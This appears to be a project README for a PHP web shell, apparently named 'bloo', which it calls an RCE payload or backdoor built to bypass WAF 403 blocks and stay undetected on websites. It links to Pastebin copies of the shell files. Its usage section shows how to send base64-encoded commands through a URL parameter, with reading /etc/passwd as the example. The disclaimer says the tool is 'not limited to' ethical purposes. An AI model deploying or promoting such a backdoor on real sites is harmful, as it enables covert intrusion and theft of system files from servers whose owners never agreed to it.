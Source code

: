 <img src="https://i.imgur.com/WJC6ER9.png">

# About

This RCE Payload/Backdoor Shell is made to bypass WAF 403 errors. This is also undetected in most websites.

## Pastebin Links
[bloo.php](https://pastebin.com/raw/eg311947) |
[bloopassthru.php](https://pastebin.com/raw/TnRgzxhn)

## Usage

```
bloo.php?bloo=[INSERT BASE64 ENCODED COMMAND]

example: cat /etc/passwd
convert: cat /etc/passwd -> Base64Encode -> Y2F0IC9ldGMvcGFzc3dk

bloo.php?bloo=Y2F0IC9ldGMvcGFzc3dk
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Discalimer
This is made for but *not limited to* ethical purposes. I am not liable to any misusage of this.

## License
[Bloos3rpent](https://twitter.com/blooserpent)
